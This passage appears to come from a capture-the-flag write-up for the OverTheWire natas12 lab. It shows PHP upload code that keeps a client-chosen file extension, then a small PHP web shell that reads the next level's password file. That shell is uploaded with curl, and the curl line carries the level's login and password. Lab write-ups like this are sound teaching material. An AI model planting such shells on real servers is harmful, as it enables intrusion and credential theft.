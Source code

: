 ```
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
?>

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<?php } ?>
```

Let's create a php file, that will read the "/etc/natas_webpass/natas13":

```
abs@MacBookPro OverTheWire % cat > nani.php <<'EOF'
<?php
echo shell_exec("cat /etc/natas_webpass/natas13");
?>
EOF
```

```
abs@MacBookPro OverTheWire % curl "natas12.natas.labs.overthewire.org/" -u natas12:yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB -s -F "filename=nani.php" -F "uploadedfile=@nani.php"
...
<h1>natas12</h1>
<div id="content">
The file <a href="upload/9kxythwuv7.php">upload/9kxythwuv7.php</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```
